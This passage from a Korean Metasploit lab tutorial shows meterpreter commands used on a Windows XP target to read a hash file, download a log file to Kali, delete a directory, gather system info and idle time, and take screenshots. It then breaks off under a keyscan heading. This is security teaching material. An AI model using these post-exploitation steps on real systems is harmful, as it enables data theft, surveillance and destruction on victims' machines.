 업로드가 완료 되었으면 ls 명령어를 통해 현재 디렉토리에 파일이 생성되었는지 확인 한다.

```jsx
meterpreter > cat hash.txt //텍스트 파일의 내용 확인
```

다음 명령어를 통해 텍스트 파일의 내용을 확인 할 수 있다.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/c84fec3b-4bf9-4fe5-99ba-98e271a431d6/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/c84fec3b-4bf9-4fe5-99ba-98e271a431d6/Untitled.png)

이번에는 공격대상 pc에 있는 파일을 복사해오자!

다시 c 디렉토리로 이동하여 해당 디렉토리에 있는 파일을 확인하자

우리는 '0.log' 파일을 다운로드 할 것이다.

```jsx
meterpreter > cd ..
meterpreter > ls
meterpreeter > download "c:\WINDOWS\\0.log" /home/kali/Desktop
```

칼리 바탕화면에 다운받은 파일이 생성된 것을 확인할 수 있다.

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/4586ce6d-04fe-40d1-8fce-c215eeea490c/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/4586ce6d-04fe-40d1-8fce-c215eeea490c/Untitled.png)

→ 생성된 파일은 연결되어 있는 것이 아니라 각각 다른 파일로 실행된다 따라서 칼리에 있는 파일에 내용을 작성해도 windows xp 에 있는 파일의 내용에는 변화가 없다.

이번에는 디렉토리를 삭제하는 방법을 알아보자

현재 위치가 c:\WINDOWS 인지 확인하고 난 후 명령어를 이용해 디렉토리를 삭제한다.

```jsx
meterpreter > pwd
meterpreter > ls
meterpreter > rmdir newDir
```

![https://s3-us-west-2.amazonaws.com/secure.notion-static.com/5bb859a8-31a6-4172-b793-923615c12b7a/Untitled.png](https://s3-us-west-2.amazonaws.com/secure.notion-static.com/5bb859a8-31a6-4172-b793-923615c12b7a/Untitled.png)

제거가 성공적으로 완료되었다.

### 실습 2 (Stdapi Extension - System & Keyscan )

```jsx
meterpreter > sysinfo
```

현재 실행 중인 시스템에 대한 정보를 얻을 수 있다.

```jsx
meterpreter > idletime //대기시간(유휴시간) 확인
meterpreter > screenshot
```

해당 명령어를 통해 공격대상의 유휴시간을 확인하고 공격대상 pc의 스크린샷을 찍을 수 있다. 

- 루트 폴더 여는 방법

→ 루트 계정으로 진입하지 않은 상태에서 다음 코드 입력
